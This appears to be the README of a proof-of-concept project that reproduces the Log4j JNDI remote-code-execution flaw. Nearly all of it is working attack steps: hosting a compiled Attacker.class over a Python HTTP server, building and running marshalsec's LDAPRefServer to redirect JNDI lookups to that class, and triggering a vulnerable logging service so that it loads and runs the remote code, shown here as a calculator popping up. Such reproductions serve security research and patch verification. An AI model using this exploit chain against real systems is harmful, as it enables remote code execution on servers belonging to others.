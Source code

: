 [中文](https://github.com/Cyronlee/log4j-rce/blob/main/README-zh.md)

## Prepare

The `remote/Attacker.class` is already compiled with `Java 1.8.0_292`.

You can use `javac Attacker.java` to compile it if you're using another version.

## Reproduce Steps

Total of 3 processes are required to reproduce it. 

If Successfully triggered, 

The console will print `Constructor` and the calculator will be opened automatically.

### 1 Attacker service

Use `python` to host `Attacker.class` file:

```
cd remote

python -m http.server 8888
```

### 2 jndi forwarding

Use the `marshalsec` tool to forward jndi requests to the attacker's service:

```
git clone git@github.com:mbechler/marshalsec.git

cd marshalsec

mvn clean package -DskipTests

java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Attacker"
```

### 3 Trigger

Use the command line or IDE to run `src/main/java/LogService.java`

